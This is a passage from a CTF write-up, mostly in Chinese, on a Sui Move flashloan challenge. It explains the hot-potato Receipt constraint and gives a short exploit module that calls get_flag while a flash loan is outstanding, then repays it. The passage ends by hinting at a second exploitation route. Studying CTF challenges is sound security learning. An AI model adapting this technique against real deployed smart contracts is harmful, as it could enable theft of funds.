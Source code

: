 ```
      │
      ┌─ ./../movectf2022_flashloan/sources/movectf2022_flashloan.move:24:19
      │
    24 │   public struct Receipt {
      │          ------- To satisfy the constraint, the 'drop' ability would need to be added here
      ·
    54 │   ): (Coin<FLASH>, Receipt) {
      │           ------- The type 'movectf2022_flashloan::flash::Receipt' does not have the ability 'drop'
    
```

所以必须对coin和receipt进行处理,不能让你贷完就跑路

注意看代码里的这个结构体：

```

    
    
      public struct Receipt {
        flash_lender_id: ID,
        amount: u64
      }
    
```

参考 [Hot Potato](https://examples.sui.io/patterns/hot-potato.html) (Hot Potato is a name for a struct that has no abilities, hence it can only be packed and unpacked in its module. In this struct, you must call function B after function A in the case where function A returns a potato and function B consumes it.)

```

    
    
    /// Module: exp
    module exp::exp {
      use sui::tx_context::TxContext;
      use movectf2022_flashloan::flash::{Self, FlashLender};
      public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);
        flash::get_flag(lender, ctx);
        flash::repay(lender, coin);
        flash::check(lender, receipt);
      }
    }
    
```

有借有还，这下成功了.

问题来了，可以不还吗？？？

还有一种利用方式
